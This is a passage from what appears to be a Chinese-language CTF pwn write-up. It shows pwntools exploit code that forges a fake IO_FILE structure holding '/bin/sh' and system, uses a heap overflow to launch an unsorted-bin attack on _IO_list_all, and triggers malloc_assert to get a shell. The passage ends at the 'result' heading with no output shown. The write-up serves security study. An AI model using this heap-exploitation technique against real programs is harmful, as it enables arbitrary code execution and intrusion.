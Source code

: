 ```plain
payload = b"a"*0x400
fake = b"/bin/sh\x00"+p64(0x61)
fake += p64(0)+p64(io_list_all-0x10)
fake += p64(0)+p64(1)
fake = fake.ljust(0xd8,b"\x00")
fake += p64(heap_addr+0x520)
fake += p64(0)*3+p64(system)
payload += fake

edit(2,-1,payload)
```

伪造fake IO结构体，利用堆溢出将unsorted bin chunk的size修改成0x61，bk指针修改为io\_list\_all-0x10，重新申请chunk时就会触发unsortedbin attack，将\_IO\_list\_all的值被改写为main\_arena+88

[![](assets/1701606938-a757e941069abf21759130304f6d104e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201548-68d713f8-6a8b-1.png)

```plain
ru(b"Input your choice >> \n")
sl(b"1")
ru(b"How long is your note?")
sl(str(0x10))
```

最后利用malloc\_assert一举两得，触发unsortedbin attack同时触发abort()刷新IO文件流getshell

效果：
